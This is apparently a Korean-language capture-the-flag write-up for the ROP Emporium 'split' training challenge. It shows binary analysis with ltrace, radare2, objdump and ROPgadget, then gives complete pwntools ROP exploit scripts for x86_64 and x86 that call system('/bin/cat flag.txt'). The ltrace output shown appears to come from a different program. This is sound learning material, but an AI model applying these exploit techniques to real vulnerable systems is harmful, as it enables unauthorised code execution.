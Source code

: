 # [split](https://ropemporium.com/challenge/split.html)
<br />

**Discription:**
> The elements that allowed you to complete ret2win are still present, they've just been split apart.
Find them and recombine them using a short ROP chain.
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
[*] '/home/kali/pico/split'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
<br />

해당 문제는 `system("/bin/cat flag.txt")`를 호출하면 풀리는 간단한 문제입니다. 아래 과정을 통해 풀이를 진행하겠습니다.

```yaml
$ ltrace split
strrchr("split", '/')                                                                          = nil
setlocale(LC_ALL, "")                                                                          = "en_US.UTF-8"
bindtextdomain("coreutils", "/usr/share/locale")                                               = "/usr/share/locale"
textdomain("coreutils")                                                                        = "coreutils"
__cxa_atexit(0x5625290abe10, 0, 0x5625290b6008, 0)                                             = 0
getopt_long(1, 0x7ffe0781e6a8, "0123456789C:a:b:del:n:t:ux", 0x5625290b5860, nil)              = -1
strcmp("-", "-")                                                                               = 0
posix_fadvise(0, 0, 0, 2)                                                                      = 0
fstat(0, 0x5625290b6300)                                                                       = 0
getpagesize()                                                                                  = 4096
aligned_alloc(4096, 0x40001, 0x40000, 0x3fc00)                                                 = 0x7f0559721000
read(0, "\n", 262144)                                                                          = 1
...
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```
우선 `ltrace`를 통해 `read()`가 `262144`만큼 읽고, 스택 버퍼오버플로우가 발생하는 것을 알 수 있습니다.

```yaml
$ r2 split
aWARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x004005b0]> aaa
...
[0x004005b0]> afl
0x00400550    1      6 sym.imp.puts
0x00400560    1      6 sym.imp.system
0x00400570    1      6 sym.imp.printf
0x00400580    1      6 sym.imp.memset
0x00400590    1      6 sym.imp.read
0x004005a0    1      6 sym.imp.setvbuf
0x004005b0    1     42 entry0
0x004005f0    4     37 sym.deregister_tm_clones
0x00400620    4     55 sym.register_tm_clones
0x00400660    3     29 entry.fini0
0x00400690    1      7 entry.init0
0x004006e8    1     90 sym.pwnme
0x00400742    1     17 sym.usefulFunction
0x004007d0    1      2 sym.__libc_csu_fini
0x004007d4    1      9 sym._fini
0x00400760    4    101 sym.__libc_csu_init
0x004005e0    1      2 sym._dl_relocate_static_pie
0x00400697    1     81 main
0x00400528    3     23 sym._init
[0x004005b0]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   ---------- GLOBAL FUNC       __libc_start_main
7   ---------- WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf
[0x004005b0]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
6   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
`radare2`를 통해 바이너리에서 `system()`을 사용하고 있고, `"/bin/cat flag.txt"`의 주소가 `0x00601060`인 것을 알 수 있습니다. 그리고 `pwnme`, `usefulFunction`, `main` 심볼들이 존재하는 것을 알 수 있습니다.

```yaml
$ objdump -d split
...
0000000000400742 <usefulFunction>:
  400742:       55                      push   %rbp
  400743:       48 89 e5                mov    %rsp,%rbp
  400746:       bf 4a 08 40 00          mov    $0x40084a,%edi
  40074b:       e8 10 fe ff ff          call   400560 <system@plt>
  400750:       90                      nop
  400751:       5d                      pop    %rbp
  400752:       c3                      ret
  400753:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
  40075a:       00 00 00
  40075d:       0f 1f 00                nopl   (%rax)
...
```
문제에서 제공하는 `usefulFunction()`는 `system()`을 호출해줍니다. 하지만 ROP로 `system("/bin/cat flag.txt")`를 만들어 직접 호출을 해줄 것이므로, 바로 호출이 가능한 `0x40074b`를 사용해줍니다.

```yaml
$ ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```
다음으로 `system()`의 인자인 `/bin/cat flag.txt`를 설정해줘야 하기 때문에 `rdi` 가젯을 확보합니다.

```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./split")
[+] Starting local process './split': pid 33083
>>> p.send(cyclic(200, n=8))
>>> p.wait()
[*] Process './split' stopped with exit code -11 (SIGSEGV) (pid 33083)
>>> Corefile("./core.33083")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.33083'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7ffe67faeab8
    Exe:       '/home/kali/pico/split' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.33083')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
마지막으로 반환주소를 덮으려면, 버퍼와 반환주소 사이의 거리를 알아야 합니다. 위 과정으로 두 주소 간의 거리는 40 입니다. 알아낸 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

p = process("./split")
    
rdi = 0x4007c3
str = 0x601060
system = 0x40074b
pay = flat({0x28:rdi}, str, system)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> $
```

<br />
<br />

# x86

```python
from pwn import *

context.log_level = "error"
context.arch = "x86"

p = process("./split32")

flag = 0x0804a030   # "/bin/cat flag.txt"
system = 0x804861a

pay = flat({44:system}, flag)  # "\x00"*44 + call system("/bin/cat flag.txt")

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```
